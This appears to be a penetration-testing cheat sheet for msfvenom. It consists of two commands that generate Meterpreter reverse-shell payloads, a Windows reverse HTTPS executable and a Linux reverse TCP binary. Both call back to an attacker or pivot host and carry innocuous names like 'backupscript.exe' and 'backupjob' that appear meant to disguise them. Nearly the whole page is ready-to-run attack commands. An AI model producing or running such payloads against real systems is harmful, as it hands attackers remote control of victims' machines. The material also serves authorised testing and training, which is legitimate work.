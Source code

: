 # msfvenom

% payload


## msfvenom - Generate reverse HTTPS payload
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
## msfvenom - Generate reverse TCP payload
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080
```

